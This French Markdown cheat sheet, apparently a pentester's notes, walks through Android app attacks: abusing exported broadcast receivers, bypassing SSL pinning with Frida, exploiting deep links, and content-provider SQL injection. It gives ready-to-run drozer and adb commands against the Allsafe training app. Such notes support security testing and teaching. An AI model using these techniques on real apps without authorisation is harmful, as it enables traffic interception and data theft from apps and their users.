 # Attaques sur Android

> Différentes attaques / configuration à vérifier dans une apk.



#### 1. Broadcast receiver

> Prérequis : le fichier `AndroidManifest.xml` contient un `<receiver>` avec comme permissions `android:exported=true`
>
> N'importe quelle application est en mesure d'intéragir avec ce receiver et de récupérer la réponse.
>
> ATTENTION : ne marche pas sur Android 26 (Oréo) et +
>
> Ressources : 
>
> - https://hackerone.com/reports/289000
> - https://hackerone.com/reports/97295
> - https://oldbam.github.io/android/security/android-vulnerabilities-insecurebank-broadcast-receivers
> - https://www.hackingarticles.in/android-penetration-testing-drozer/

- **Récupérer le nom du package de l'application  :**

```bash
dz> run app.package.list -f <NOM_APPLI>
```

- **Récupérer les broadcasts receivers / actions associées mal implémentés (exportables)  :**

```bash
dz> run app.broadcast.info -a <PACKAGE_DE_LAPPLI> -i
```

- **Lancer un broadcast pour trigger le broadcast receiver de l'application : **

```bash
# Les extras sont les paramètres que prennent les receivers
# On les obtient dans le code en analyse statique 
# Exemple : intent.getStringExtra("server");
dz> run app.broadcast.send --action <ACTION_BROADCAST_RECEIVER> --extra <TYPE> <NOM_EXTRA> <VALEUR_EXTRA>
```

* **Regarder le comportement dans l'application**



#### 2. Bypass SSL pinning

> Contournement de la protection appelée "**SSL pinning**".
>
> Dans les applications mobiles modernes, une protection contre le MITM est mise en place, c'est le **SSL pinning**. Le principe est simple : l'application est forcée de re-vérifier le certificat du serveur avec une liste de certificat embarquée (épinglée) dans cette dernière au moment du développement.
>
> Pour contrer cette protection, on utilise [frida](outils/frida.md).

**Sur le téléphone émulé : **

- Installer le serveur frida :

  ```bash
  # Télécharger le serveur
  $ wget https://github.com/frida/frida/releases/download/<version-number>/frida-server-<version-number>-android-x86.xz
  # On dézipe
  unxz frida-server-<version-number>-android-x86.xz
  mv frida-server-<version-number>-x86.xz frida-server
  # On met le binaire sur le téléphone
  $ adb push ~/Downloads/frida-server /data/local/tmp
  ```

- Lancer le serveur en background :

  ```bash
  $ adb shell /data/local/tmp/frida-server &
  ```

**Sur l'hôte :**

- Lancer le script `adbhelper.sh` (voir [configuration.md](configuration.md)) :

  ```bash
  # Sélectionner l'option 1
  $ ./adbhelper.sh
  1) Hook with Frida
  2) Pull an APK
  3) Quit
  [+] Please select a number from menu: 1
  # On met un mot clé (e.g. le nom de l'apk) pour trouver le package associé
  [+] Enter keyword of your app: apk
  1) package:com.awesomeproject
  [+] Please select the package number: 1
  # Et voilà, on peut récupérer le trafic de l'application dans un proxy BURP
  ```



### 3. Deep link

> Prérequis : le fichier `AndroidManifest.xml` contient un champ <data android:scheme=""...> 
>
> Deep link : Schémas URL custom (e.g. grab://, toutcequetuveux://, ...) définis dans le manifest qui indiquent à l'application que ces liens ouvrent directement dans cette dernière une activité
>
> Par défaut, chaque activité ayant un intent relié sont exportées et sont donc accessibles par n'importe quelle autre application du téléphone.
>
> Ressources : 
>
> - https://hackerone.com/reports/401793
> - https://hackerone.com/reports/583987
> - https://www.hackingarticles.in/android-pentest-deep-link-exploitation/

```xml
# Exemple :

<activity android:theme="@style/Theme.Allsafe.NoActionBar" android:name="infosecadventures.allsafe.challenges.DeepLinkTask">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
                <category android:name="android.intent.category.BROWSABLE" />
                <data android:scheme="allsafe" android:host="infosecadventures" android:pathPrefix="/congrats" />
                
Ici, les URL qui commencent par allsafe://infosecadventures/congrats déclenchent l'activité infosecadventures.allsafe.challenges.DeepLinkTask de l'application.
```

* **Récupérer les activités exportées (voir les permissions requises) :**

```bash
dz> run app.activity.info -a <PACKAGE>
```

- **Récupérer les activités accessibles par navigateur :**

```bash
dz> run scanner.activity.browsable -a <PACKAGE>
```

- **Faire une requête avec le schéma URL custom défini dans le manifest :**

```bash
# Exemple
# dz> run app.activity.start --action android.intent.action.VIEW --data-uri allsafe://infosecadventures/congrats
dz> run app.activity.start --action android.intent.action.VIEW --data-uri <SCHEMA://HOST/PATHPREFIX>
```

* **On peut aussi créer une page HTML qu'on met sur le téléphone :**

```html
<!DOCTYPE html>
<html>
<a href="allsafe://infosecadventures/congrats">CSRF DEMO</a>
</html>
```



#### 4. SQLi

> Exploiter le scanner de drozer
>
> Un concept intéréssant à noter :
>
> - projection : quoi select
> - selection : condition du select
> - select <projection> where <selection>
>
> Ressources : 
>
> - https://www.hackingarticles.in/android-penetration-testing-drozer/
> - https://hackerone.com/reports/291764

* **Chercher une potentielle SQLi :**

```bash
dz> run scanner.provider.injection -a <PACKAGE>

# Exemple de réponse
# Injection in Projection:
#  content://infosecadventures.allsafe.dataprovider
```

- **Exploiter une SQLi :**

```bash
dz> run app.provider.query content://infosecadventures.allsafe.dataprovider --projection "*"
```

